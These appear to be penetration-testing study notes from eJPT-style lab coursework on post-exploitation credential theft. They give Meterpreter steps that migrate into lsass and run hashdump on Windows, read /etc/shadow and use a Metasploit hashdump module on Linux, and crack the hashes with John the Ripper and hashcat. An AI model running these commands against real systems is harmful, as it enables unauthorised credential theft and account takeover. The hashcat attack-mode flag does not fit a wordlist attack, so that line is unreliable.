 ## Windows: Dumping and Cracking NTLM Hashes
**Dumping**
1. On target machine: pgrep lsass -> migrate 688 -> hashdump

**Cracking**
https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/5-post-exploit/crack-hashes

1. `john --list=formats | grep NT netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon`
2. `john --format=NT hashes.txt` It will use the default wordlist
3. `gzip -d /usr/share/wordlists/rockyou.txt.gz` `john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Linux: Dumping and Cracking Hashes
**Dumping hashes**
`$1=MD5`
`$2 = Blowfish`
`$5 = SHA-256`
`$6 = SHA-512`

only read by root: cat /etc/shadow
MSF module:     An MSF module can be used for hash dumping

CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run

**Cracking hashes**
John the ripper
1. gzip -d /usr/share/wordlists/rockyou.txt.gz
2. `john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt`

Hashcat
1. `hashcat --help | grep 1800 1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems`
1. `hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt`